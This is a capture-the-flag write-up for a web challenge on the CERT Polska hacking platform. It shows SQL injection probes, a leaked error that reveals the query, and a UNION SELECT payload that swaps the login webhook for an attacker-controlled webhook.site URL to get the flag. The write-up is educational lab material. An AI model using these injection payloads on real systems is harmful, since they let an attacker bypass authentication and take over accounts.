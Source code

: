 # [web - e-PUŁAP](https://hack.cert.pl/challenge/e-pulap)

First things first, a SQL injection attempt: `' OR 1=1 -- `. I get a weird looking error `error:Could not resolve host: chat.evil-corporation.private` which ensures me that the field is indeed injectable, so I put there some nonsense like `' test` and get this error:
```
Fatal error
: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: syntax error at or near "test" LINE 1: ...name, webhook_login_url FROM users WHERE username = '' test' ^ in /var/www/html/login.php:47 Stack trace: #0 /var/www/html/login.php(47): PDO->query('SELECT username...') #1 {main} thrown in
```
which basically gives me SQL query. Based on that query I inject this sql code:
```sql
' union select 'test', 'https://webhook.site/2c96e78b-2e10-480e-9d7d-d8bb2f5ff76f' -- 
```
that impersonates `webhook_login_url` from database. Result:

![](image.png)

I enter the link into browser, it logs me in and gives me access to the flag url: https://e-pulap.ecsc23.hack.cert.pl/static/flag_deadbeef_cofebabe_etc.txt

### Flag
```
ecsc23{paswordless_is_the_future!}
```
